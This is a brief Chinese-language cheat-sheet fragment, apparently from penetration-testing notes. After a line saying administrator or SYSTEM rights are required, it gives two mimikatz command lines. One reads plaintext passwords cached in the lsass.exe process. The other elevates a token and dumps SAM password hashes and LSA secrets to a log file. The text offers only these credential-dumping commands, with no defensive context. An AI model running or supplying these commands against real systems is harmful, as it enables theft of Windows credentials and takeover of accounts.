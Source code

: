 使用前提：具备`administrator`权限，或`system`权限

<br/>

#### 本地交互命令

```sh
# 读取lsass.exe进程缓存的明文密码
mimikatz "privilege::debug" "log res.txt" "sekurlsa::logonpasswords" "exit"
```

```sh
mimikatz "privilege::debug" "token::elevate" "log res.txt" "lsadump::sam" "lsadump::secrets" "exit"
```